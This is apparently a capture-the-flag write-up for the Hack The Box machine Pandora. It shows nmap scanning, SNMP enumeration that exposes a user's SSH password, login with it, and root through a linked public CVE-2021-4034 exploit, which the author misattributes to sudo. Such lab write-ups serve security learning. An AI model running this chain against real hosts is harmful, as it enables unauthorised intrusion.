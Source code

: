 Pandora HTB Writeup
---
From the decription of the machine, I pwned the box in an unintended way.

![logo](https://i.imgur.com/R2z087e.png)

1 Enumeration
---

nmap
~~~
┌──(wolf㉿piratesec)-[~/Htb/pandora]
└─$ sudo nmap --min-rate 20000 10.129.87.252 -oN nmap -v -sU -sS
[sudo] password for wolf:
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-07 07:40 EDT
Initiating Ping Scan at 07:40
Scanning 10.129.87.252 [4 ports]
Completed Ping Scan at 07:40, 0.20s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 07:40
Completed Parallel DNS resolution of 1 host. at 07:40, 0.06s elapsed
Initiating SYN Stealth Scan at 07:40
Scanning 10.129.87.252 [1000 ports]
Increasing send delay for 10.129.87.252 from 0 to 5 due to 97 out of 321 dropped probes since last increase.
Discovered open port 80/tcp on 10.129.87.252
Discovered open port 22/tcp on 10.129.87.252
Increasing send delay for 10.129.87.252 from 5 to 10 due to 196 out of 653 dropped probes since last increase.
Completed SYN Stealth Scan at 07:40, 0.72s elapsed (1000 total ports)
Initiating UDP Scan at 07:40
Scanning 10.129.87.252 [1000 ports]
Discovered open port 161/udp on 10.129.87.252
Completed UDP Scan at 07:40, 0.39s elapsed (1000 total ports)
Nmap scan report for 10.129.87.252
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset), 6 closed udp ports (port-unreach), 993 open|filtered udp ports (no-response)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
161/udp open  snmp

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.65 seconds
           Raw packets sent: 4138 (186.425KB) | Rcvd: 1009 (40.852KB)
~~~

I'm going to start with the low lying fruits: SNMP port 161.

## SNMP Port 161

Simple Network Management Protocol (SNMP) is an internet standard protocol used to monitor and manage Network devices connected over an IP.
Snmp can be a great place to look for information. I'm going to head over to metasploit to see if there are any exploits. SNMP can also be enumerated by **SNPMWALK**.

### SNMP Enumeration

I found this metasploit exploit to enumerate SNMP

![snmp](https://i.imgur.com/49uyQhZ.png)

Running it against the port I get creds for a user:daniel with pass:HotelBabylon23
~~~
976                 runnable            sh                  /bin/sh             -c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'
981                 runnable            sshd                sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
1005                runnable            agetty              /sbin/agetty        -o -p -- \u --noclear tty1 linux
1041                runnable            mysqld              /usr/sbin/mysqld
1042                runnable            apache2             /usr/sbin/apache2   -k start
1043                runnable            apache2             /usr/sbin/apache2   -k start
1044                runnable            apache2             /usr/sbin/apache2   -k start
1045                runnable            apache2             /usr/sbin/apache2   -k start
1046                runnable            apache2             /usr/sbin/apache2   -k start
1047                runnable            apache2             /usr/sbin/apache2   -k start
1137                runnable            host_check          /usr/bin/host_check -u daniel -p HotelBabylon23
1178                runnable            apache2             /usr/sbin/apache2   -k start
1199                runnable            apache2             /usr/sbin/apache2   -k start
1200                runnable            apache2             /usr/sbin/apache2   -k start
1289                unknown             kworker/u4:0-events_power_efficient
1302                runnable            apache2             /usr/sbin/apache2   -k start
1353                runnable            apache2             /usr/sbin/apache2   -k start
1378                unknown             kworker/0:0-events
1455                unknown             kworker/u4:1-events_power_efficient
1457                unknown             kworker/0:1-cgroup_destroy
1459                unknown             kworker/1:0


[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/snmp/snmp_enum) >
~~~

2 Foothold
---

Using the creds I'm able to login into ssh..

~~~
┌──(wolf㉿piratesec)-[~/Htb/pandora]
└─$ ssh daniel@10.129.87.252
daniel@10.129.87.252's password:
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue  7 Jun 08:52:40 UTC 2022

  System load:           0.02
  Usage of /:            63.0% of 4.87GB
  Memory usage:          8%
  Swap usage:            0%
  Processes:             224
  Users logged in:       1
  IPv4 address for eth0: 10.129.87.252
  IPv6 address for eth0: dead:beef::250:56ff:fe96:2577

  => /boot is using 91.8% of 219MB


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Jun  7 08:51:30 2022 from 10.10.16.14
daniel@pandora:~$
~~~

Looking around the daniel's directory I find nothing. Daniel can't execute sudo commands.

![daniel](https://i.imgur.com/gNelaUc.png)

I then head over to home and find another user Matt. Inside Matt's directory is a user.txt but I can't read it: permission denied.

![perm](https://i.imgur.com/4aoQLoP.png)


3 Privesc
---

Time for Linpeas. I start a python server on my local machine and download linpeas on the compromised machine. It seems the sudo version is vulnerable to  CVE-2021-4034.

![linpeas](https://i.imgur.com/nzLdnpP.png)

Looking around the web I found a [python exploit](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py) to exploit the vulnerability.

Running it on the machine I get root..

![root](https://i.imgur.com/gkIYYTC.png)

@wolf
